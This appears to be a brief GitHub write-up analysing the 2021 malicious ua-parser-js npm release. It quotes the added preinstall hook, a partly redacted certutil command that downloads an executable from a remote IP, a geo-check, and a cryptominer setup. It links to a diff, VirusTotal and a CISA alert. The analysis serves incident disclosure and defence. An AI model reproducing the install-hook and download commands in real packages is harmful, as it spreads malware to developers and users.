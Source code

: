 # ua-parser-vuln

Package.json has the line:
 ""preinstall": "start /B node preinstall.js & node preinstall.js"," added, to call the new attack scripts.
preinstall.js looks to see Windows, mac, linux, and call the correct file

On the linux side: It checks the server IP, if in the RU/UA/BY/KZ geo, does nothing.

Else, it pulls down  jsextention from a remote IP in the Latvia GEO

**If Windows:**
1. Pulls down jsextension.exe  (Server serving is not responding)
2. Tries to curl it down
3. If that doesn work, tries wget
4. If that doesnt work, tries certutil
    it runs “certutil.exe -urlcache -f http://159.XXX.XXX.XXX/download/jsextension.exe jsextension.exe
    
5. Then attempts to pull down create.dll from citation<redaction>.at
    Currently at a russian IP address block
6. Then adds the execute to tasklist , to connect to pool.minexmr.****

Read the diff here: https://my.diffend.io/npm/ua-parser-js/0.7.28/0.7.29#d2h-701945
Virustotal: https://www.virustotal.com/gui/file/2a3acdcd76575762b18c18c644a745125f55ce121f742d2aad962521bc7f25fd/behavior/C2AE
CISA Announcement: https://us-cert.cisa.gov/ncas/current-activity/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js
